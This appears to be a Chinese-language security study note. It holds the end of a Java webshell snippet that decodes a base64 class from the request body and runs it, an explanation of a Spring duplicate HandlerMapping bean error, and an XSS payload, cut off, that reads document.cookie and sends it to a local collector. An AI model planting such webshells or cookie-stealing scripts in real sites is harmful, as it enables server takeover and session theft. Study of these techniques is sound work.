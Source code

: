 ```java
                                    // 尤其是在需要进行数据解密或还原时。
                                    new sun.misc.BASE64Decoder()
                                            .decodeBuffer(request.getReader().readLine())))
                    //调用完g 加载一个类，调用newInstance() 后 ,相当于new
                    .newInstance().equals(pageContext);
        }

    }

}

```



### 错误解决

`org.springframework.beans.factory.NoUniqueBeanDefinitionException: No qualifying bean of type 'org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping' available: expected single matching bean but found 2: requestMappingHandlerMapping,controllerEndpointHandlerMapping`



`equestMappingHandlerMapping` 和 `ControllerEndpointHandlerMapping` 是 Spring MVC 中用于处理请求映射的两个组件。

1. **RequestMappingHandlerMapping**
   - **作用**：该组件负责解析从客户端发送到服务器的 HTTP 请求，并找到一个与请求匹配的处理器（通常是一个 Controller 方法）。
   - **类型**：它是一个 `HandlerMapping` 的实现，用于处理基于 `@RequestMapping`、`@GetMapping`、`@PostMapping` 等注解的请求映射。
   - **用法**：通常，每个带有 `@RequestMapping` 或其他相关注解的 Controller 方法都会由 `RequestMappingHandlerMapping` 进行解析和匹配。
2. **ControllerEndpointHandlerMapping**
   - **作用**：这个组件是在 Spring 5 中引入的，专门用于处理带有 `@ControllerEndpoint` 注解的端点。
   - **类型**：它是 `HandlerMapping` 的一个具体实现。
   - **用法**：当你在 Spring 应用程序中定义了一个或多个使用 `@ControllerEndpoint` 注解的端点时，这些端点的请求映射将由 `ControllerEndpointHandlerMapping` 来处理。这使得你可以将一些特定的端点（如 WebSockets 端点）与其他基于注解的请求映射区分开来。

简而言之，`RequestMappingHandlerMapping` 主要用于处理基于注解的请求映射，而 `ControllerEndpointHandlerMapping` 专门用于处理使用 `@ControllerEndpoint` 注解定义的端点。







## 关于XSS代码中问题

```js
(function Show(){

    const cookie = document.cookie;  
     console.log(cookie)
    // 使用xhr向URL为： 127.0.0.1:8083发送GET请求，参数为cookie=上面获取的cookie  
    const xhr = new XMLHttpRequest();  
    xhr.open('GET', 'http://127.0.0.1:8083?cookie='+cookie, true);  
    xhr.withCredentials = true; // 携带跨域cookie
    
    xhr.onload = function () {  
        if (xhr.status >= 200 && xhr.status < 300) {  
            console.log(xhr.responseText);  // 请求成功，打印返回的内容  
        } else {  
            console.error(xhr.statusText);  // 请求失败，打印错误信息  
        }  
    };  
    xhr.onerror = function () {  
        console.error('请求发生错误');
        xhr.setRequestHeader('Cookie', "请求发生错误");
    };  
    // 将获取的cookie添加到请求头中 
```